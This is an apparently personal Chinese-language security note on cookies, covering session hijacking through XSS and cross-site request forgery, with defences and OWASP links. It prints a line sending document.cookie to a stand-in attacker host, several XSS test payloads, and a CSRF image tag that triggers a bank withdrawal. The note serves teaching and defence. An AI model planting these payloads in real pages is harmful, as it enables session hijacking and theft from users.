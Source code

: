 ```yaml
---
title: 安全
date: 2020-7-7
lang: 'zh-CN'
sidebar: 'auto'
categories:
 - JS
tags: 
location: HangZhou
---
```


::: warn
当机器处于不安全环境时，切记不能通过HTTP Cookie存储、传输敏感信息。
:::

[会话劫持和XSS](#1)  
[跨站请求伪造（CSRF）](#2)  
[more](#3)  


## <span id="1">会话劫持和XSS</span>
在Web应用中，Cookie常用来标记用户或授权会话。因此，如果Web应用的Cookie被窃取，可能导致授权用户的会话受到攻击。常用的窃取Cookie的方法有利用社会工程学攻击和利用应用程序漏洞进行XSS攻击。
```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
<body onload="alert('test1')"/>
<img src="http://url.to.file.which/not.exist" onerror="alert(document.cookie);">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg"/>
```
HttpOnly类型的Cookie由于阻止了JavaScript对其的访问性而能在一定程度上缓解此类攻击。

## <span id="2">跨站请求伪造（CSRF）</span>
维基百科已经给了一个比较好的CSRF例子。比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：
```javascript
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```
当你打开含有了这张图片的HTML页面时，如果你之前已经登录了你的银行帐号并且Cookie仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。有一些方法可以阻止此类事件的发生：
- 对用户输入进行过滤来阻止XSS；
- 任何敏感操作都需要确认；
- 用于敏感信息的Cookie只能拥有较短的生命周期；
- 更多方法可以查看[OWASP CSRF prevention cheat sheet](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)。

>https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies

## <span id="3">more</span>
[Cross-site Scripting (XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

[Cross-Site Request Forgery (CSRF)](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29)
